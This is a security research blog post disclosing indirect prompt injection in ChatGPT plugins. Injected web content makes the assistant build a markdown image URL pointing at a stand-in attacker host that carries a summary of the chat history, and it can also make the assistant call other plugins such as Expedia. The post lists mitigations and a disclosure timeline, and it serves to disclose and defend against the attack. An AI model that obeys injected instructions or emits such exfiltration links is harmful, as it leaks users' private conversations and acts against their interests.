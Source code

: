 ```yaml
---
title: "ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery"
date: 2023-05-16T07:45:38-07:00
tags: [
     "aiml", "machine learning","red", "threats", "prompt injection","chatgpt", "exfil"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: Data Exfiltration via Plugins and Markdown Injection"
  description: "Plugins can return malicious content and hijack your AI."
  image: "https://embracethered.com/blog/images/2023/hacker-white.jpg"
---
```


This post shows how a malicious website can take control of a ChatGPT chat session and exfiltrate the history of the conversation.

## Plugins, Tools and Integrations

With plugins, data exfiltration can happen by sending too much data into the plugin in the first place. More security controls and insights on what is being sent to the plugin are required to empower users.

**However, this post is not about sending too much data to a plugin, but about a malicious actor who controls the data a plugin retrieves**.

### Untrusted Data and Markdown Injection

The individual controlling the data a plugin retrieves can exfiltrate chat history due to ChatGPT's rendering of markdown images. 

Basically, if the LLM returns a markdown image in the form of

```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```

ChatGPT will render it automatically and retrieve the URL. During an Indirect Prompt Injection the adversary controls what the LLM is doing (I call it AI Injection for a reason), and it can ask to summarize the past history of the chat and append it to the URL to exfiltrate the data.

I'm not the only one who points this out, [Roman Samoilenko has observed and posted about this vulnerability in ChatGPT before](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2). Roman found it end of March, and I ran across it independently a few days later in early April.

### Proof of Concept Demonstration

This is possible with plugins, e.g. via the `WebPilot Plugin` or check out the [YouTube Transcript Plugin Injection](/blog/posts/2023/chatgpt-plugin-youtube-indirect-prompt-injection/) I posted about the other day. 

The LLM's response can contain markdown (or instruct the AI to build it on the fly), summarize the past conversation, URL encode that summary and append that as query parameter. And off it goes to the attacker.

Here is how this looks in action:

[![Data exfiltration in progress](/blog/images/2023/ai-exfil-progress.png)](/blog/images/2023/ai-exfil-progress.png)

The text that is being exfiltrated including "TooManySecrets123" is something that was written earlier in the chat conversation.

And here is an end to end video POC:

{{< youtube PIY5ZVktiGs >}}


Feel free to skip forward in the middle section - it's a bit slow. 

But wait, there is more....

### Can an attacker call another Plugin during the injection?

**Short answer is yes.** 

**This is an interesting variant of `Cross Site Request Forgery` actually, but we will need a new name for it, maybe `Cross Plugin Request Forgery`.**

Here is an example of an Indirect Prompt Injection calling another plugin (Expedia) to look for flights:

[![AI Injections searches for flights](/blog/images/2023/ai-injection-call-plugin.png)](/blog/images/2023/ai-injection-call-plugin.png)

Yes, random webpages and comments on sites will soon hijack your AI and spend your money.

## Mitigations and Suggestions

Safe AI assistants would be really awesome to have, the power of ChatGPT is amazing! So what could be done to improve the security posture? 

- Its unclear why plugins have access to the entire conversation context. This could be isolated. It would be better if plugins go off do their work, rather then giving it access to the entire conversation history, or allow invoking other plugins.
- A security contract for plugins is needed. Who is responsible for what? What data is sent to the plugin? Currently there is no defined or enforced schema that could help mitigate such problems. Open AI mentions **Human in the loop** as a [core safety best practice](https://platform.openai.com/docs/guides/safety-best-practices), but end-users have little to no control at the moment once they start using plugins.
- In fact the idea of having some sort of **kernel LLM** and other sandbox LLM is discussed by [Simon Willison, who has thought about this already in a lot more detail](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/).
- NVIDIA has been working on [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/) to help keep bots in check
- Scenarios like rendering images could be implemented as a dedicated feature, rather than depending on the convenience of markdown. (e.g. links being returned that are not injected into the chat context, but as references after the main message).
- Only use and point plugins to data you fully trust. 

A lot more research is needed, both from offensive and defensive side. And at this point, with the speed of adoption and new tools being released it seems that raising awareness to have more smart people look into this (and how to fix it) is the best we can do.

## Conclusion

With the advent of plugins Indirect Prompt Injections are now a reality within ChatGPT's ecosystem. As attacks evolve we will probably learn and see nefarious text and instructions on websites, blog posts, comments,.. to attempt to take control of your AI.

### Responsible Disclosure

I first disclosed the image markdown injection issue to Open AI on April, 9th 2023. 

After some back and forth, and highlighting that plugins will allow to exploit this remotely, I was informed that image markdown injection is a feature and that no changes are planned to mitigate this vulnerability.


## References

* [Roman Samoilenko - New prompt injection attack on ChatGPT web version. Markdown images can steal your chat data.](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2)
* [Open AI Safety Best Practices](https://platform.openai.com/docs/guides/safety-best-practices)
* [Dual LLM pattern](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/)
* [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/)
